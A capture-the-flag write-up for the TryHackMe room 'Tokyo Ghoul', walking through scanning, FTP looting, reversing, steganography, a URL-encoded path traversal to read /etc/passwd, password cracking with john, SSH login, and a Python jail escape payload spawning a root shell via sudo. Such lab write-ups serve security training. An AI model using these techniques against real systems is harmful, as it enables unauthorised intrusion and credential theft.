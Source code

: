 # Tokyo Ghoul

**Room Link:** [https://tryhackme.com/room/tokyoghoul666](https://tryhackme.com/room/tokyoghoul666)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (585).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (586).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (590).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (591).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (592).png" alt=""><figcaption></figcaption></figure>





## TCP/21 - FTP

**Kali**

```
ftp $VICTIM
Username: ftp
cd need_Help?
mget Aogiri_tree.txt
cd Talk_with_me
mget *
```

<figure><img src="../../.gitbook/assets/image (587).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

## Ghidra

**Kali**

```
ghidra
```

<figure><img src="../../.gitbook/assets/image (593).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
./need_to_talk 
> kamishiro
```

<figure><img src="../../.gitbook/assets/image (594).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf rize_and_kaneki.jpg 
Password: You_found_1t

cat yougotme.txt
```

<figure><img src="../../.gitbook/assets/image (595).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (596).png" alt=""><figcaption></figcaption></figure>

CyberChef was able to idenfify it was morse code and from there it was obvious the next few steps.

Morse code -> Hex -> Base64

<figure><img src="../../.gitbook/assets/image (597).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (598).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM/d1r3c70ry_center/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (600).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (599).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (601).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (602).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (603).png" alt=""><figcaption></figcaption></figure>

There was a filter so to bypass I url encoded the most of path to passwd

<figure><img src="../../.gitbook/assets/image (604).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (605).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt passwd 
```

<figure><img src="../../.gitbook/assets/image (606).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh kamishiro@$VICTIM
Password: password123
```



**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (607).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat  /home/kamishiro/jail.py
sudo /usr/bin/python3 /home/kamishiro/jail.py
>>>  __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash')
```



<figure><img src="../../.gitbook/assets/image (609).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (608).png" alt=""><figcaption></figcaption></figure>

